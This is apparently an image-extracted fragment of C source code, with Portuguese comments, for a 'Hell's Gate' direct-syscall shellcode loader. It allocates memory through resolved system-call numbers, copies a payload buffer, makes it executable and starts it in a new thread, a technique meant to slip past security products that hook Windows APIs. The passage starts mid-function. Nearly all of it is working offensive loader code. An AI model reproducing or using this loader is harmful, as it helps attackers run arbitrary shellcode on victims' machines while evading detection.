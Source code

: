 ```c

	return TRUE;
}

BOOL Payload(PVX_TABLE pVxTable) {
	NTSTATUS status = 0x00000000;

	printf("[+] Address of VX_TABLE: %p | [+] Addres Of HellsGate: %p | [+] Address Of HellDescent: %p\n", pVxTable, HellsGate, HellDescent);

	// Aloca memória pro shellcode
	PVOID lpAddress = NULL;
	//SIZE_T sDataSize = sizeof(shellcode);
	SIZE_T sDataSize = sizeof(payload);
	HellsGate(pVxTable->NtAllocateVirtualMemory.wSystemCall);
	status = HellDescent((HANDLE)-1, &lpAddress, 0, &sDataSize, MEM_COMMIT, PAGE_READWRITE);

	printf("[+] Allocated Shellcode : 0x%p in Adress: 0x%p \n", payload, lpAddress); 
	
	// Escreve pra memória
	VxMoveMemory(lpAddress, payload, sizeof(payload));

	// Muda as permissões da região da memória
	ULONG ulOldProtect = 0;
	HellsGate(pVxTable->NtProtectVirtualMemory.wSystemCall);
	status = HellDescent((HANDLE)-1, &lpAddress, &sDataSize, PAGE_EXECUTE_READ, &ulOldProtect);

	printf("[!] Enjoy your direct syscalls little mage\n"); 

	// Cria a Thread
	HANDLE hHostThread = INVALID_HANDLE_VALUE;
	HellsGate(pVxTable->NtCreateThreadEx.wSystemCall);
	status = HellDescent(&hHostThread, 0x1FFFFF, NULL, (HANDLE)-1, (LPTHREAD_START_ROUTINE)lpAddress, NULL, FALSE, NULL, NULL, NULL, NULL);

	// Wait for 1 seconds
	LARGE_INTEGER Timeout;
	Timeout.QuadPart = -10000000;
	HellsGate(pVxTable->NtWaitForSingleObject.wSystemCall);
	status = HellDescent(hHostThread, FALSE, &Timeout);

	return TRUE;
}

PVOID VxMoveMemory(PVOID dest, const PVOID src, SIZE_T len) {
	char* d = dest;
	const char* s = src;
	if (d < s)
		while (len--)
			*d++ = *s++;
	else {
		char* lasts = s + (len - 1);
		char* lastd = d + (len - 1);
		while (len--)
			*lastd-- = *lasts--;
	}
	return dest;
}
```
